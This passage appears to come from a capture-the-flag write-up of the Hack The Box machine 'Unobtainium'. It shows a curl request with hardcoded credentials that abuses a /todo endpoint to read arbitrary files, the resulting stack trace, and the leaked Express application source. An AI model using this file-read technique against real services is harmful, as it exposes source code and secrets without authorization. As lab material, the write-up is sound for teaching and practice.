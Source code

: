 Also tried the kubernetes at **8443** but without success <br>

The next thing was trying to mess with the todo request to read other files. Tried a completely random name (File: thisisnotafile) and the connection just hanged until it eventually timed out. But when i tried an empty file name something interesting happened <br>

Note: i used burp repeater to try stuff out but the curl command below would also trigger the same error
```bash
cmd: curl -X POST --data '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : ""}' -H "Content-Type: application/json" http://unobtainium.htb:31337/todo

Error: ENOENT: no such file or directory, open
&nbsp; &nbsp;at Object.openSync (fs.js:476:3)
&nbsp; &nbsp;at Object.readFileSync (fs.js:377:35)
&nbsp; &nbsp;at /usr/src/app/index.js:86:41
&nbsp; &nbsp;at Array.forEach (&lt;anonymous&gt;)
&nbsp; &nbsp;at /usr/src/app/index.js:84:36
&nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
&nbsp; &nbsp;at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
&nbsp; &nbsp;at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
&nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
&nbsp; &nbsp;at /usr/src/app/node_modules/express/lib/router/index.js:281:22
```

We can see that it errors out in the **/usr/src/app/index.js** file but trying to read it just hangs. Usually, even when running from the same directory, the paths present in error are just absolute which made me try the file name of **index.js** only ! And it payed off !!! 

```json
{"ok":true,"content":"var root = require(\"google-cloudstorage-commands\");
-- snip-- 
``` 

The code extracted from the json
```js
var root = require("google-cloudstorage-commands");
const express = require('express');
const { exec } = require("child_process");     
const bodyParser = require('body-parser');     
const _ = require('lodash');                                                                  
const app = express();
var fs = require('fs');
                                                                                              
const users = [                                                                               
  {name: 'felamos', password: 'Winter2021'},
  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},      
];

let messages = [];                             
let lastId = 1;                                
                                                                                              
function findUser(auth) {                                                                     
  return users.find((u) =>                                                                    
    u.name === auth.name &&                                                                   
    u.password === auth.password);                                                            
}                                    
                                               
app.use(bodyParser.json());                                                                   
                                               
app.get('/', (req, res) => {                   
  res.send(messages);                                                                         
});                                                                                           
                                                                                              
app.put('/', (req, res) => {   
```